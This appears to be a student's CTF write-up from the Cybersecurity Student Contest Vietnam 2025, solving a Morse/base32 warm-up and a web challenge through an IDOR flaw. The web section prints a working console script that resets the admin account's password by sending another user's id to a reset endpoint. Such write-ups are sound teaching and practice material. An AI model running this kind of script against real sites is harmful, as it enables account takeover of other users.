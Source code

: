 > On 18/10/2025, I was involved in the Cybersecurity Student Contest Vietnam 2025 — a prestigious competition. The contest was quite challenging for me, but I managed to solve two problems easily.

# 1.README(S)?
Because this was a warm-up question, I didn’t have much time to solve it. The problem is:
![image](https://hackmd.io/_uploads/rkijy_LCge.png)
It introduced some information about CNSV2025, which was not relevant. Then I clicked on the hint and saw Morse code:
`.. -. .--- ..- --. ...- .-. ... --. .- --.. -.. -.- -.... ..--- -.. -. ..... ..--- .-- ....- ..... -.. ..-. --- .--- ..- .-- ....- --.. ..--- -.. .--. ..-. .-. --. -.- ....- - -.. --- .--- ..- .-- ..--- --.. .--- -. -.- -. ..- --. -.-. ....- - .--- -. --.. - ...- . --.. .-.. - --- -... -..- .-- ....- ....- ...-- .--- -- .--- ..- .-- -.-- ..--- .-.. ..- .--. . .-- ...- --. --.. .-.. -.. --- ...- --.. --. ... ...-- - .... .--- ..... ..--- -..- . .-. - ...- --- .-. ..--- -..- . --.. .-.. .....`
I decoded morse and base32 to obtain a flag :+1: `CSCV2025{CounteringCybercrime-SharingResponsibility-SecuringOurFuture}`
# 2.Web — Leak Force
Initially, I encountered a website with a login background.
While exploring the page source, I found something more interesting: a clue in the app.js file.
![image](https://hackmd.io/_uploads/Hy6BxuURxe.png)
From this, I realized that the issue was an IDOR (Insecure Direct Object Reference) vulnerability.
I seen code
![image](https://hackmd.io/_uploads/BJjLl_U0ll.png)
The vulnerability lies in the server’s trust. The server blindly trusted the data sent by the client, specifically the id field.
`body: JSON.stringify({ id: myId, newPassword })`
This line of code means: “Send a password reset request, and tell the server to change the password for the user whose id is myId.

I can easily modify this request (using the F12 Console) to rest password account admin. I paste the code here

```
(async function() {
    var targetId = 1; // Thử ID của admin (hoặc user khác)
    var newPassword = '123'; // Mật khẩu mới bạn muốn đặt

    const resp = await fetch('/api/reset-password', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ id: targetId, newPassword: newPassword })
    });
    
    const result = await resp.json();
    
    if (resp.ok) {
        console.log('THÀNH CÔNG! Đã đổi mật khẩu của user ID:', targetId, result);
        alert('THÀNH CÔNG! Thử đăng nhập bằng tài khoản admin và mật khẩu ' + newPassword);
    } else {
        console.error('THẤT BẠI:', result);
    }
})();
```
![image](https://hackmd.io/_uploads/By_YgO80xe.png)
Continue,i can easy login and obtain flag :

`CSCV2025{7h3_Uni73d_N47i0ns_C0nv3n7i0n_4g4ins7_Cyb3rcrim3}`
> Through this very competitive contest, I realized more weaknesses in myself .The truth is, I couldn’t solve any forensic problems — even though I had considered that one of my strengths .I joined the contest mainly for fun and to gain experience .See you in the contest next year, and I hope I can achieve a higher rank next time.
